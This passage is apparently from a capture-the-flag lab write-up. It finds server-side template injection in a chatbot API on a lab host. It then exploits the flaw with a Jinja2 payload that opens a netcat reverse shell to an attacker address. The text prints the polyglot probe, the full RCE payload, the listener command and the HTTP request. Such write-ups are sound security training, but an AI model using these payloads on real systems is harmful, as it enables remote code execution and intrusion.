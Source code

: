 We get a response this time.

![sorry](/home/z/Documents/Rabbit_Store/rabbit_assets/sorry.png)

We can see that our username is reflected in the response. This could indicate SSTI. Server-Side Template Injection is a vulnerability that occurs when user input is unsafely inserted into a server-side template and gets interpreted as code. This allows an attacker to inject and execute arbitrary code on the server, often leading to remote code execution (RCE).

We can test for this using an SSTI polyglot payload. A polyglot SSTI payload is a single payload designed to work across multiple template engines, triggering server-side template injection (SSTI) regardless of the specific backend used (e.g., Jinja2, Twig, ERB, etc.).

```json
{"username":"${{<%[%'\"}}%\\."}
```

![polyglot](/home/z/Documents/Rabbit_Store/rabbit_assets/polyglot.png)

This causes an error on the Jinja2 templating engine. We can now attempt to exploit this SSTI to gain RCE, using the following payload:

```json
{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ATTACKER_IP 443 >/tmp/f').read() }}"}
```

We first need to start a listener.

```bash
nc -lvnp 443
```

```http
POST /api/fetch_messeges_from_chatbot HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://storage.cloudsite.thm/dashboard/active
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImhlbGxvQGhlbGxvLm5ldCIsInN1YnNjcmlwdGlvbiI6ImFjdGl2ZSIsImlhdCI6MTc1MDk4NzQ0MSwiZXhwIjoxNzUwOTkxMDQxfQ.Y73lqTnN6H4-iflbz4Do8mLv8wORPd0A7r_XRTB03tI
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-type: application/json;charset=UTF-8
Content-length: 20

{"username":"{{ self.__init__.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.99.111 443 >/tmp/f').read() }}"}

```
